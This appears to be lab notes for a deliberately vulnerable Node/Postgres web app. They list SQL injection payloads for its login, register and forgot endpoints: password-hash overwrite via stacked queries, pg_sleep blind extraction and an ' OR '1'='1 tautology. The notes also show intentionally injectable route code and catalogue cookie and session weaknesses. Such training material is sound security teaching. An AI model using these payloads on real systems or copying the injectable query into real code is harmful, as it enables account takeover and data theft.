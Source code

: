  

## SQL Injection Steps

* Bypass login function with sql injection
 - The following can be used to guess a password, but you can change the query accordingly
 ```
 /login password field, replaces your hash!
 test'; INSERT INTO users (username,password) VALUES ('test', '$2y$10$x6PXZnQoodybWH/kmtwEQeKf7PasRSGvb7zaEQ.y0xGFrbntiUqpW') ON CONFLICT (username) DO UPDATE SET password='$2y$10$x6PXZnQoodybWH/kmtwEQeKf7PasRSGvb7zaEQ.y0xGFrbntiUqpW';--
 ```
 - Possible variation assuming we DON'T know the name of the password field.
```
test'; SELECT CASE WHEN ((SELECT password from users where username='admin'))='admin1' THEN (select pg_sleep(5)) ELSE NULL END;--
``` 

* Try a blind scenario to get the DB name
- If your database name is "postgres" this will work otherwise use something like intruder to build out the query and dump the db name based on time responses

```
/register username field
johnny','test'); SELECT CASE WHEN (SUBSTR((SELECT current_database()),1,1))='a' THEN (select pg_sleep(3)) ELSE NULL END;--
```
 - Read Jakes blog about safe sql injection!

* Set up a reflected scenario that will print SQL results to you in the UI and get info from it

```
/forgot
router.post('/forgot', async function(req, res, next) {
  console.log(`SELECT * from users where username='${req.body.username}';`);
  var db_response = await client.query(`SELECT * from users where username='${req.body.username}';`);
  console.log(db_response);
  var username_return = '';
  db_response.rows.forEach(element => username_return+=element.username);
  res.render('forgot_valid',{user:username_return});
});
```
Try and send a password reset for username `' OR '1'='1`


 SELECT current_database()

 test'; SELECT CASE WHEN ((SELECT password from users where username='admin'))='admin1' THEN (select pg_sleep(5)) ELSE NULL END;--

## Cookie vulns

### Boils down to 2 vulns, weakness in token generation or weakness in session token handling

#### Weakness in token generation
  <b>Predicatble tokens</b>
 * Current cookie creation does not implement sufficient entropy, thus the cookies are brute forceable!
 Cookie follows general pattern of `xyz$d$d$d$d$d` where `$d` represents a number 0-9
 * Immediately noticeable pattern
 
#### Weakness in session handling

<b>Disclosure of Tokens on Network</b>
* Not using HTTPS, application and client are sending session token over the network in plain text.

<b>Vulnerable mapping of tokens to sessions</b>
* Multiple valid tokens are allowed to be assigned concurrently to the same user account

<b>Vulnerable session termination</b>
* No logout function
* Cookies do not time out browser side
* Server does not perform session destruction, auth token still associated with the user on the backend for whom it was issued


* Token currently not sent in hidden form field! CSRF is much easier in that case
 
 
* No current methods for session destruction client/serverside 